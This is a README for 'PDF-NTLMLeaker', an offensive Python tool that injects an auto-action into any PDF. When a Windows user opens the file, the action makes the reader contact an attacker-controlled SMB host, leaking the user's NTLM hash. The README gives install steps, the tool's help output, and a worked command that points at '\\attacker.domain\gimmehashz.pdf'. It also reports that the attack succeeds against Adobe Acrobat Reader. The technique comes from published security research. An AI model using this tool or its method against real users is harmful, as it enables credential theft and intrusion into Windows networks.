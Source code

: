 # PDF-NTLMLeaker v0.1

## Description


This script implements the Proof of Concept attack from the Checkpoint research ["NTLM Credentials Theft via PDF Files"](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

Basically, this Python script will inject in any given pdf a /AA entry that when parsed by the PDF reader will request a remote file in a server controlled by the attacker leaking the NTLM hash of any user that open that pdf document in a windows host. 

During my tests with the script I verified that this attack works nicely in the Adobe Acrobat Reader. But my tests failed in browser PDF readers (Edge, Firefox and Chrome) and also in the Foxit Reader 9.1.


## Install

Install required libraries with:

```
pip install pdfrw
```

## Example

```
$ python3 PDF-NTLMLeaker.py -h

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

usage: PDF-NTLMLeaker.py [-h] [-o OUTPUT] input path

positional arguments:
  input                       PDF file to be used as input.
  path                        UNC path of malicious SMB Server/Responder host
                              (ex: \\malicious.com\dumb_file.pdf)

optional arguments:
  -h, --help                  show this help message and exit
  -o OUTPUT, --output OUTPUT  Name of the output file. (default:
                              modified_file.pdf)

This script will inject a malicious metadata in a PDF file to force it leak
the NTLM hash of any user that open that file in a Windows host.

```


```

$ python3 PDF-NTLMLeaker.py sample.pdf '\\attacker.domain\gimmehashz.pdf'

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

[*] Reading PDF file: sample.pdf
[*] Injecting the payload in the PDF file...
[*] Saving modified PDF as: modified_file.pdf
[*] Done!

```

